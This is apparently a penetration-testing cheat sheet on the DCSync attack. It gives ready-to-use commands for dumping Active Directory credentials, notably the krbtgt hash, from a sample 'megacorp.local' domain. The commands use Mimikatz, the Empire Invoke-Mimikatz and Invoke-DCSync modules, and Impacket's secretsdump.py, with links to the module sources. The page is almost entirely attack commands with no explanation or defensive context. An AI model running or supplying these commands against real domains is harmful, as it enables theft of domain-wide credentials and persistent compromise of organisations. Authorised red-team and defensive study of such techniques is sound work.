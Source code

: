 # DCSync

## Mimikatz

```text
mimikatz # lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt
mimikatz # lsadump::dcsync /domain:megacorp.local /user:krbtgt@megacorp.local
```

### Invoke-Mimikatz

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

```text
PS > Invoke-Mimikatz '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
```

## Invoke-DCSync.ps1

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module\_source/credentials/Invoke-DCSync.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1)

```text
PS > Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC01.megacorp.local
```

## secretsdump.py

```text
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt'
$ secretsdump.py DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

